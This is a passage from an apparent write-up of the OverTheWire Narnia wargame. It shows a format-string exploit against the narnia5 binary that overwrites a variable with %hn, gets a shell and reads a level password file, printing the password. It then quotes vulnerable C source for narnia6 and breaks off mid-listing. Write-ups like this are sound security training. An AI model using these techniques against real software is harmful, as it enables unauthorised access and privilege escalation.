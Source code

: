 The stack is not executable, but it doen't matter since we have to just modify the value of *i* to get a shell.


```bash
narnia5@narnia:/narnia$ ./narnia5 AAAA%08x.%08x.%08x.%08x.%08x.%08x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA41414141.31343134.31343134.3331332e.33313334.31332e34] (57)
i = 1 (0xffffd6d0)
```
It looks like with the first format parameter we print directly from the format string.
The *snprinf()* function, evaluates all of the format string, but does only copy n bytes to it to buffer, which doesn't matter in our case.

```bash
narnia5@narnia:/tmp/CezarPP$ ./exp.py 
��\xff\xff%496x%1$hn
[+] Starting local process '/narnia/narnia5': pid 16382
[*] Switching to interactive mode
Change i's value from 1 -> 500. GOOD
$ whoami
narnia6
$ cat /etc/narnia_pass/narnia6
neezocaeng
```

## Narnia6 - password : neezocaeng
-> overwriting function pointers

```bash
ssh narnia6@narnia.labs.overthewire.org -p 2226
```

Source:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
        char b1[8], b2[8];
        int  (*fp)(char *)=(int(*)(char *))&puts, i;

        if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

        /* clear environ */
        for(i=0; environ[i] != NULL; i++)
                memset(environ[i], '\0', strlen(environ[i]));
        /* clear argz    */
        for(i=3; argv[i] != NULL; i++)
                memset(argv[i], '\0', strlen(argv[i]));

        strcpy(b1,argv[1]);
        strcpy(b2,argv[2]);
        //if(((unsigned long)fp & 0xff000000) == 0xff000000)
        if(((unsigned long)fp & 0xff000000) == get_sp())
                exit(-1);
```